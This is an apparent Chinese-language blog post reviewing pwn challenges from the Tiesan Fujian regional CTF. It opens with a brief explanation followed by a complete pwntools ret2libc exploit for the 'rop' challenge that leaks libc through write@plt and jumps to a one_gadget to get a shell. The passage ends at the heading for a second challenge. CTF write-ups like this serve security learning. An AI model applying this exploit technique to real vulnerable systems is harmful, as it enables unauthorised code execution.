 ```yaml
---
layout: post
title:  "铁三福建赛区pwn回顾"
date:   2018-09-12 19:12:00
categories: WriteUp
tags: WriteUp PWN 铁三
---
```


* content
{:toc}


建了新博客开始还是写点东西存着，不然空空的感觉也不是很好，刚好看到文涛学长给我的铁三PWN题，当时我连涛神写的exp都看不懂，现在看看自己当初真的太菜了，所以现在重新看一遍题目来检验现在的实力





## ROP


### 思路

简单看了一遍程序，vuln函数明显的栈溢出，利用空间贼大，checksec检测下只开了NX，
直接ret2libc做ROP来getshell
### exp
```python
from pwn import*
context(os='linux',arch='i386',log_level='debug')
n = process('./rop')
elf = ELF('./rop')
libc = ELF('/lib/i386-linux-gnu/libc.so.6')
#libc = ELF('./libc32')

buf = 'a'*0x88
vuln_addr = 0x08048474
write_got = elf.got['write']
write_plt = elf.plt['write']
write_sym = libc.symbols['write']
bin_sh = libc.search('/bin/sh').next()
system_sym = libc.symbols['system']

leak = buf+'aaaa'+ p32(write_plt) +p32(vuln_addr)+ p32(1) + p32(write_got) + p32(0x4)
n.sendline(leak)
write_addr = u32(n.recv())
print hex(write_addr)

libc_base = write_addr - write_sym
system_addr = libc_base + system_sym
#one_gadget = 0x3a80c
one_gadget = 0x3ac5c + libc_base
payload = buf+ 'aaaa' + p32(one_gadget)
n.sendline(payload)

n.interactive()
```


## seven

### 思路
